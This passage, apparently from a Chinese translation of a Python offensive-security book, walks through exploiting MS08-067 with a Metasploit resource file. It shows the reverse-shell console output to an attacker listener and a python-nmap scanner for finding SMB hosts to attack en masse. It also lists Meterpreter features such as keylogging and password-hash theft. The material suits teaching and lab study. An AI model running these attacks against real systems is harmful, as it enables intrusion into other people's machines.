 为了利用 Metasploit 的攻击，我们选择我们的 Exploit(`exploit/windows/smb/ms08_067_netapi`)，然后设置目标为`192.168.1.37`。接下来我们指定攻击荷载为`windows/meterpreter/reverse_tcp`选择反向连接到我们的`192.168.77.77`的 7777 端口上，最后我们告诉 Metasploit 开始攻击系统。保存配置文件为`conficker.rc`，我们可以通过命令`msfconsole -r conficker.rc`来启动我们的攻击。这个命令会告诉 Metasploit 根据`conficker.rc`来启动攻击。如果成功，我们的攻击会返回一个命令行 Shell 来控制对方电脑。

```
attacker$ msfconsole -r conficker.rc
[*] Exploit running as background job.
[*] Started reverse handler on 192.168.77.77:7777
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.1.37
[*] Meterpreter session 1 opened (192.168.77.77:7777 -&gt; 192.168.1.37:1087) at Fri Nov 11 15:35:05 -0700 2011
msf exploit(ms08_067_netapi) &gt; sessions -i 1
[*] Starting interaction with 1...
meterpreter &gt; execute -i -f cmd.exe
Process 2024 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32&gt; 
```

## 用 Python 和 Metasploit 交互

太棒了！我们建立了一个配置文件，渗透了一个主机并获得了一个 shell。重复这个过程对 254 个主机会花费大量的时间来修改配置文件，但是如果利用 Python，我们可以生成一个快速的扫描脚本，扫描 445 端口打开的主机，然后利用 Metasploit 资源文件攻击有漏洞的主机。

首先，让我们从先前的端口扫描的例子中利用`python-nmap`模块。这里，函数`findTgts()`以潜在目标主机作为输入，返回所有开了 TCP 445 端口的主机。TCP 445 端口是 SMB 协议的主要端口。只要主机的 TCP 445 端口是开放的，我们的脚本就能有效的攻击，这会消除主机对我们尝试连接的阻碍。函数通过迭代扫描所有的主机，如果函数发现主机开放了 445 端口，就将主机加入列表中。完成迭代后，函数会返回包含所有开放 445 端口主机的列表。

```
import nmap

def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
return tgtHosts 
```

接下来，我们将对我们攻击的目标设置监听，监听器或者命令行与控制信道，一旦他们渗透成功我们就可以与远程目标主机进行交互。Metasploit 提供了先进的动态的攻击荷载 Meterpreter。Metasploit 的 Meterpreter 运行在远程主机上，返回给我们命令行用来控制主机，提供了大量的控制和分析目标主机的能力。Meterpreter 扩展了命令行的能力，包括数字取证，发送命令，远程路由，安装键盘记录器，下载密码或者 Hash 密码等等功能。
